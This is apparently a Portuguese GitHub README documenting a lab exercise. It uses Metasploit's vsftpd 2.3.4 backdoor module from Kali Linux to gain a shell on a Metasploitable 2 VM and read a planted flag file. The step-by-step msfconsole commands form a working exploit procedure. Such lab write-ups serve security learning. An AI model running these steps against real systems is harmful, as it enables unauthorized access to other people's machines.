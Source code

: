 # Explorar falhas no protocolo FTP

Este projeto demonstra como explorar uma vulnerabilidade no protocolo FTP utilizando o Metasploit para acessar um arquivo em uma máquina vulnerável.

## Objetivo

Encontrar e acessar um arquivo de texto criado em uma máquina virtual vulnerável (Metasploitable) através de uma outra máquina (Kali Linux).

## Ferramentas Utilizadas

- **Kali Linux**
- **Metasploitable 2** (máquina vulnerável)
- **Metasploit Framework**

## Procedimento

### 1. Criar um arquivo na VM vulnerável
Na máquina Metasploitable, criei um arquivo `flag.txt` com o seguinte conteúdo:
```bash
"teste de penet"
```

Comando para criar o arquivo:
```bash
echo "teste de penet" > flag.txt
```

Localização do arquivo: `/home/msfadmin/flag.txt`


Verificação de arquivo e ip da máquina vulnerável:

![image](https://github.com/user-attachments/assets/de124486-1ebc-4ffe-bd53-19b07ed4412e)


### 2. Configuração do Metasploit na Kali Linux

No Kali Linux, execute os seguintes passos:

1. Abra o Metasploit com o comando:
   ```bash
   msfconsole
   ```

2. Escolha o exploit `vsftpd_234_backdoor`:
   ```bash
   use unix/ftp/vsftpd_234_backdoor
   ```

3. Configure o IP de destino (a máquina vulnerável):
   ```bash
   set rhosts 192.168.56.101
   ```

4. Verifique as opções configuradas:
   ```bash
   show options
   ```

5. Configure o payload para interagir com o sistema:
   ```bash
   set payload payload/cmd/unix/interact
   ```

6. Execute o exploit:
   ```bash
   exploit
   ```

7. Verifique o IP para confirmar que é o mesmo da VM vulnerável:
   ```bash
   ip addr
   ```
![image](https://github.com/user-attachments/assets/f6249f18-0122-4d4a-835e-4f1e40bbad2b)


### 3. Acessar o arquivo na máquina vulnerável

1. Navegue até o diretório do arquivo:
   ```bash
   ls
   cd home
   cd msfadmin
   ls
   ```

2. Abra o arquivo para ler o conteúdo:
   ```bash
   nano flag.txt
   ```
![image](https://github.com/user-attachments/assets/e311aa74-63ce-4d6e-a576-e00f04fc1724)

## Resultados

Conseguimos localizar e acessar o arquivo `flag.txt` com sucesso através do Metasploit.

---

**Nota:** Este experimento foi realizado em um ambiente controlado para fins educacionais.

